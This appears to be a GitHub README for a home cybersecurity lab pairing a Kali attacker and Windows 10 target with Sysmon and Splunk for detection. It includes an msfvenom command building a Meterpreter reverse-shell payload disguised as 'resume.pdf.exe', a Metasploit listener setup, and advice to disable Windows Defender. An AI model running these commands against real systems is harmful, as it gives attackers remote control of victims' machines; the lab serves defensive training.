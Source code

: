 # 👨‍💻SOC Home Lab: Attack & Defense Simulation🚀

## Table of Contents
1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
5. [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6. [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7. [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8. [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9. [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [How to Contribute](#how-to-contribute)
13. [Conclusion](#conclusion)

---
## 📌Introduction
This project demonstrates the setup of a home lab environment for cybersecurity testing, including an attack machine (Kali Linux), a target machine (Windows 10 VM), and a logging system (Splunk) to monitor malicious activities. The project involves:
- Setting up virtual machines
- Installing and configuring Sysmon for log collection
- Deploying malware using `msfvenom`
- Monitoring attacks using Splunk

---
## 🔧Prerequisites
| Requirement                  | Description                                      |
|------------------------------|--------------------------------------------------|
| **RAM**                      | At least **16GB** (to run multiple VMs)         |
| **Virtualization Software**  | VMware Workstation or VirtualBox                |
| **Operating Systems**        | ISO files for Windows 10 and Kali Linux         |
| **Logging Tools**            | Splunk and Sysmon setup files                   |
| **Internet Connection**      | Required for downloading and configuring tools  |

---
## Network Topology
Below is a simple network topology illustrating the setup:
```
   [Kali Linux (Attacker)]  --->  [Windows 10 VM (Target)]  --->  [Splunk (Log Monitoring)]
```
*The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.*

---
## Step 1: Setting Up Virtual Machines
### 1.1 Install Kali Linux (Attacker Machine)
1. Download **Kali Linux ISO** from [Kali Official Website](https://www.kali.org/downloads/).
2. Create a new VM in VMware/VirtualBox and install Kali Linux.
3. Update and upgrade Kali:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 1.2 Install Windows 10 (Target Machine)
1. Download Windows 10 ISO from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO).
2. Create a new VM and install Windows 10.
3. Ensure **networking is enabled** for communication between VMs.

---
## Step 2: Installing Splunk for Log Monitoring
1. Download **Splunk Free** from [Splunk Website](https://www.splunk.com/).
2. Install Splunk on your Windows 10 VM.
3. Start Splunk and log in with admin credentials.
4. Enable **data collection** for monitoring logs.

---
## Step 3: Installing Sysmon on Windows 10
1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64
   ```

---
## Step 4: Generating Malware with msfvenom
On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
- This creates `resume.pdf.exe`, which acts as our payload.

---
## Step 5: Setting Up a Metasploit Listener
1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---
## Step 6: Monitoring Logs with Splunk
1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---
## 🔍Troubleshooting
### 1. Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### 2. Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---
## 🎯Next Steps & Future Improvements
- Integrate **ELK Stack** for enhanced log analysis.
- Automate attack execution using **Python scripts**.
- Implement **Wazuh SIEM** for better threat detection.

---
## How to Contribute
Interested in improving this project? Contributions are welcome!
1. Fork the repository.
2. Create a new branch with your improvements.
3. Submit a pull request for review.

### GitHub Repository Badges:
![GitHub stars](https://img.shields.io/github/stars/xAHIINX00/SOC-Home-Lab-Attack-Defense-Simulation.svg)
![GitHub forks](https://img.shields.io/github/forks/xAHIINX00/SOC-Home-Lab-Attack-Defense-Simulation.svg)
![GitHub issues](https://img.shields.io/github/issues/xAHIINX00/SOC-Home-Lab-Attack-Defense-Simulation.svg)

---
## Conclusion
This project demonstrates how to:
- Set up a cybersecurity home lab
- Deploy and detect malware
- Use Splunk for threat monitoring

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
- [LinkedIn](https://www.linkedin.com/in/ahinsunil-m) 
- [GitHub](https://github.com/xAHIINX00) 